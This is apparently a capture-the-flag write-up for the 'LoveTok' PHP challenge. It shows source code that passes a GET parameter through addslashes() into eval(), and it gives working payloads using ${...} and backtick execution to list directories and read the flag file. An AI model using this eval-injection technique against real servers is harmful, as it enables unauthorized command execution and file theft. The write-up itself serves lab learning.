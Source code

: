 # LoveTok
![Screenshot from 2021-08-15 15-10-24](https://user-images.githubusercontent.com/87865134/129471709-b0376ea8-bf4d-4379-a679-bac6403f1d85.png)

## - Download source code and analysis
- Use **MVC**
- Have:
  - Router:
  ```php
    $router = new Router();
    $router->new('GET', '/', 'TimeController@index');
  ```
  - Controller:
  ```php
    class TimeController
    {
        public function index($router)
        {
            $format = isset($_GET['format']) ? $_GET['format'] : 'r';
            $time = new TimeModel($format);
            return $router->view('index', ['time' => $time->getTime()]);
        }
    }
  ```
  - Model: 
  ```php
    class TimeModel
    {
        public function __construct($format)
        {
            $this->format = addslashes($format);
            echo($this->format . '\n');

            [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
            $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
        }

        public function getTime()
        {
            eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
            return isset($time) ? $time : 'Something went terribly wrong';
        }
    }
  ```
- `TimeModel` use `addslashes()` function to escape `$format` which is data of `$_GET('format')` and put it in `eval()` function => it it a vulnerability

## - Exploit: 
- `addslashes()` function don't escape characters: `$`, `{`, `}`, ``` ` ``` => can bypass use **Variable parsing** and **Execution Operators**

### 1. List files on directory
- payload:
```php
?format=${print(`ls /`)}
```
![Screenshot from 2021-08-15 15-25-48](https://user-images.githubusercontent.com/87865134/129472156-cf8f1bbe-3662-4176-a7b1-1a1eec7498a8.png)

>  found file `flagDUomZ` 

### 2. Read file to get flag
- payload:
```php
?format=${print(`cat ../flagDUomZ`)}
```
![Screenshot from 2021-08-15 15-27-59](https://user-images.githubusercontent.com/87865134/129472193-a031e325-7114-4647-880a-b117d6863769.png)

## - References:
- [Variable parsing](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.simple)
- [Execution Operators](https://www.php.net/manual/en/language.operators.execution.php)
